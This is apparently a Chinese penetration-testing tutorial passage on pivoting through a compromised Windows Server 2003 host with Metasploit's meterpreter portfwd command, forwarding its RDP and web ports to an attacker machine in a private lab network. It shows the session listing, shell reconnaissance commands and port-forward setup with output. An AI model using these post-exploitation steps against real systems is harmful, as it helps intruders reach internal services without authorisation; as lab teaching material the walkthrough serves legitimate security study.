 ### 4.2 基于ported端口转发

portfwd是一款强大的端口转发工具，支持TCP，UDP，支持IPV4–IPV6的转换转发。并且内置于meterpreter。其中exe单版本源码如下：

    https://github.com/rssnsj/portfwd
    
        

**攻击机：**

    192.168.1.5 Debian
    
        

**靶机：**

    192.168.1.4 Windows 7
    
    192.168.1.119 Windows 2003
    
        

    msf exploit(multi/handler) \> sessions ‐l 
    
    Active sessions
    ===============
    
    Id Name Type Information Connection
    ‐‐ ‐‐‐‐ ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐
    1 meterpreter x86/windows WIN03X64\Administrator @ WIN03X64 192.168.1.5:45303 ‐> 192.168.1.119:53 (192.168.1.119)
    
    msf exploit(multi/handler) > sessions ‐i 1 ‐c 'ipconfig'
    [*] Running 'ipconfig' on meterpreter session 1 (192.168.1.119) 
    
    Windows IP Configuration 
    
    Ethernet adapter 本地连接:
    
    Connection‐specific DNS Suffix . :
    
    IP Address. . . . . . . . . . . . : 192.168.1.119
    Subnet Mask . . . . . . . . . . . : 255.255.255.0
    Default Gateway . . . . . . . . . : 192.168.1.1 22
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928145808171.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**靶机IP为：**-
192.168.1.119—windows 2003—x64

需要转发端口为：80，3389

    msf exploit(multi/handler) > sessions ‐i 1
    [*] Starting interaction with 1... 
    
    meterpreter > shell
    Process 4012 created.
    Channel 56 created.
    Microsoft Windows [版本 5.2.3790]
    (C) 版权所有 1985‐2003 Microsoft Corp.
    
    C:\Documents and Settings\Administrator\桌面>if defined PSModulePath (echo ok!) else (echo sorry!)
    if defined PSModulePath (echo ok!) else (echo sorry!)
    sorry! 
    
    C:\Documents and Settings\Administrator\桌面>net config Workstation
    net config Workstation
    计算机名 \\WIN03X64
    计算机全名 win03x64
    用户名 Administrator
    
    工作站正运行于
    NetbiosSmb (000000000000)
    NetBT_Tcpip_{37C12280‐A19D‐4D1A‐9365‐6CBF2CAE5B07} (000C2985D67D) 
    
    软件版本 Microsoft Windows Server 2003
    
    工作站域 WORKGROUP
    登录域 WIN03X64
    
    COM 打开超时 (秒) 0
    COM 发送计数 (字节) 16
    COM 发送超时 (毫秒) 250
    命令成功完成。
    
    C:\Documents and Settings\Administrator\桌面>netstat ‐an|findstr "LIST ENING"
    netstat ‐an|findstr "LISTENING"
    TCP 0.0.0.0:80 0.0.0.0:0 LISTENING
    TCP 0.0.0.0:135 0.0.0.0:0 LISTENING
    TCP 0.0.0.0:445 0.0.0.0:0 LISTENING
    TCP 0.0.0.0:1025 0.0.0.0:0 LISTENING
    TCP 0.0.0.0:1026 0.0.0.0:0 LISTENING
    TCP 0.0.0.0:3078 0.0.0.0:0 LISTENING
    TCP 0.0.0.0:3389 0.0.0.0:0 LISTENING
    TCP 0.0.0.0:9001 0.0.0.0:0 LISTENING
    TCP 127.0.0.1:2995 0.0.0.0:0 LISTENING
    TCP 127.0.0.1:9000 0.0.0.0:0 LISTENING
    TCP 127.0.0.1:9999 0.0.0.0:0 LISTENING
    TCP 192.168.1.119:139 0.0.0.0:0 LISTENING
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020092814585888.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    meterpreter > portfwd ‐h
    Usage: portfwd [‐h] [add | delete | list | flush] [args] 
    
    OPTIONS:
    ‐L <opt> Forward: local host to listen on (optional). Reverse: local host to connect to.
    ‐R Indicates a reverse port forward.
    ‐h Help banner.
    ‐i <opt> Index of the port forward entry to interact with (see the "list" command).
    ‐l <opt> Forward: local port to listen on. Reverse: local port to connect to.
    ‐p <opt> Forward: remote port to connect to. Reverse: remote port to listen on.
    ‐r <opt> Forward: remote host to connect to.
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928145923697.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**攻击机执行：**

    meterpreter > portfwd add ‐l 33389 ‐r 192.168.1.119 ‐p 3389
    [*] Local TCP relay created: :33389 <‐> 192.168.1.119:3389
    meterpreter > portfwd add ‐l 30080 ‐r 192.168.1.119 ‐p 80
    [*] Local TCP relay created: :30080 <‐> 192.168.1.119:80
    meterpreter > portfwd 
    
    Active Port Forwards
    ==================== 
    Index Local Remote Direction
    ‐‐‐‐‐ ‐‐‐‐‐ ‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐
    1 0.0.0.0:33389 192.168.1.119:3389 Forward
    2 0.0.0.0:30080 192.168.1.119:80 Forward 
    
    2 total active port forwards.
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928145955245.png%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928150008858.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
查看攻击机LISTEN端口：转发已成功

    root@John:~# netstat ‐ntlp |grep :3
    tcp 0 0 0.0.0.0:33389 0.0.0.0:* LISTEN 2319/ruby
    tcp 0 0 0.0.0.0:30080 0.0.0.0:* LISTEN 2319/ruby 4
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928150042925.png%23pic_center)-
Windows 7 分别访问攻击机33389，30080，既等价访问靶机3389，80-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928150059802.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200928150108266.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    https://micro8.gitbook.io/micro8/contents-1/91-100/95-ji-yu-portfwd-duan-kou-zhuan-fa
    
        

* * *
